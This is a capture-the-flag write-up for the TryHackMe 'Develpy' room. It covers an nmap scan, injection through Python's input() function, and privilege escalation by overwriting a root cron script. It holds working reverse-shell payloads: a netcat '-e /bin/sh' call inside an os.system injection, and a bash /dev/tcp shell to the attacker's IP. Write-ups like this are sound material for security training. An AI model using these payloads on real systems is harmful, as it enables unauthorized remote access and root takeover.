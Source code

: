 # 38 - Develpy (python input function exploitation)

Room Link --> [https://tryhackme.com/room/bsidesgtdevelpy](https://tryhackme.com/room/bsidesgtdevelpy)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.255.206 -p- -T5 -sV

22/tcp    open  ssh   syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
10000/tcp open        snet-sensor-mgmt? syn-ack
```
{% endcode %}

I tried navigating to : `http://10.10.255.206:10000`

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see our input is passed into the python "input" function, meaning we can just enter our rev shell exploit to gain reverse shell.

We can use netcat also.

[https://intx0x80.blogspot.com/2017/05/python-input-vulnerability\_25.html](https://intx0x80.blogspot.com/2017/05/python-input-vulnerability\_25.html)

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc 10.10.255.206

# enter this to get rev shell, make sure nc is listening.
__import__("os").system("nc -e /bin/sh 10.18.88.214 4242")
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We got shell</p></figcaption></figure>

### Priv Esc

`cat /etc/crontab`&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There are 3 jobs running every minute.

We can repace the "root.sh" with our own that contains a reverse shell, and setup nc listener so when the job is runn we can get rev shell as root user.

```
rm root.sh
echo 'bash -i >& /dev/tcp/10.18.88.214/2234 0>&1' > root.sh
```

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Immediately we get root shell.

Done !

